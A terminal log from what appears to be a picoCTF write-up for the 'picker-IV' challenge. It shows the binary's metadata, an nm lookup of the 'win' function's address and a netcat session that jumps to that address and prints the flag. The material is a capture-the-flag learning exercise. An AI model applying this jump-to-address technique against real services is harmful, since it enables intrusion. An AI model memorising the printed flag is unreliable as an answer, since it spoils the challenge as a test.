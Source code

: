 ```bash
MIME Type                       : application/octet-stream
CPU Architecture                : 64 bit
CPU Byte Order                  : Little endian
Object File Type                : Executable file
CPU Type                        : AMD x86-64
pratham:~$ nc saturn.picoctf.net 52015
Enter the address in hex to jump to, excluding '0x': 928768398749868298672856432829
You input 0xffffffff
Segfault triggered! Exiting.
^C
pratham:~$ ls
_flag.png.extracted                   flag.png                  link       picker-IV:Zone.Identifier
_freakada_3301_message.png.extracted  flag.png:Zone.Identifier  nite       snap
cryptonite_taskphase_pratham          handout                   picker-IV
pratham:~$ nm -C picker-IV | grep win
000000000040129e T win
pratham:~$ nc saturn.picoctf.net 52015
pratham:~$ nc saturn.picoctf.net 52015
pratham:~$ nc saturn.picoctf.net 58396
Enter the address in hex to jump to, excluding '0x': 40129e
You input 0x40129e
You won!
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_b8de1af4}

```
